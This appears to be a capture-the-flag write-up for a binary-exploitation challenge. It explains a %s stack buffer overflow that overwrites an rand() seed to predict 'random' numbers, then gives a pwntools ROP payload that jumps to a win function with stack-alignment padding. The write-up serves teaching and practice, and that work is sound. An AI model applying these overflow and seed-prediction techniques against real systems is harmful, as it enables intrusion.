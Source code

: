 the challenge description says we have to guess ? i dont think so :P<br>
![My Image](./img/really_random_challenge_desc.png)<br>

first we anayze the binary and rename variables<br>
![My Image](./img/Decomp_random.png)<br>

we have a win()  named potato :D <br>
![My Image](./img/win.png)<br>
![My Image](./img/vars.png)<br>

here we have the overflow vuln the format specifier `%s` does not cap the amount of bytes we can input.<br>
![My Image](./img/vuln_1.png)<br>

we can overflow the Stack but how can we reach the ret;<br>
![My Image](./img/goal_1.png)<br>
we have to `guess` the 10 numbers that are generated and transformed here<br>
![My Image](./img/winningNumbers.png)<br>
take a quick look into the rc4() <br>
we copy paste this and add it to our Exploit Script.

```py
def rc4(randNumber,seed):
    tmp = (seed + randNumber >> 0x1f) >> 0x18
    return (seed + randNumber + tmp & 0xff) - tmp
```
![My Image](./img/rc4.png)<br>

ok now how can we guess the 10 numbers ? <br>
We know that the numbers are generated by the `libc` implementation of a `pseudo random number generator` the `rand()`.<br>
The `rand()` and the `srand()` are related to each other.<br>
Without the `srand()` function, the `rand()` function would always generate the same number each time the program is run.<br>

this first call to `rand()` will allways generate the same number.<br>
![My Image](./img/vuln_2.png)<br>
that means we know the seed and can generate the correct numbers by ourself.<br>

```
# this will import the libc rand() function to our python script
libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')
```


but even better we dont need to generate the correct seed because we overwrite the seed variable anyways with our Bof Payload <br>

the seed is initiated here<br>
![My Image](./img/gdb_seed.png)

after our Palyload is read in we can see the the seed is overwritten<br>
![My Image](./img/payload_overwrite_seed.png)<br>
so we simply set the seed to 0x1337<br>

```
    payload = b''
    payload += b'A'*112                       #fill the 112 bytes of the inputbuffer
    payload += p64(seed)                      #overflow the seed
```
now we generate 10 random numbers with the `0x1337` seed

```py
for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')
```

and here is the full Script

```py
    seed = 0x1337
    libc.srand(seed)


    payload = b''
    payload += b'A'*112
    payload += p64(seed)                                 #set thee seed 
    payload += p64(0x1122334455667788)*2
    payload += p64(rop.find_gadget(['ret'])[0])          #return to fix Stack alignment
    payload += p64(elf.symbols['potato'])                #jump to the potato()


    sl(payload)

    rc('Guess my numbers!')
    sleep(1)

    for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')

    inter()

```

care for Stack alignment otherwhise we end up here in a `SIGSEGV` because the `movaps` instruction needs a 0x10 byte aligned Stack<br>
![My Image](./img/movaps_issue.png)

```
Moves a double quadword containing four packed single-precision floating-point values from the source operand (second operand) to the destination operand (first operand). This instruction can be used to load an XMM register from a 128-bit memory location, to store the contents of an XMM register into a 128-bit memory location, or to move data between two XMM registers.

When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.
```
source: https://c9x.me/x86/html/file_module_x86_id_180.html<br>



<br>


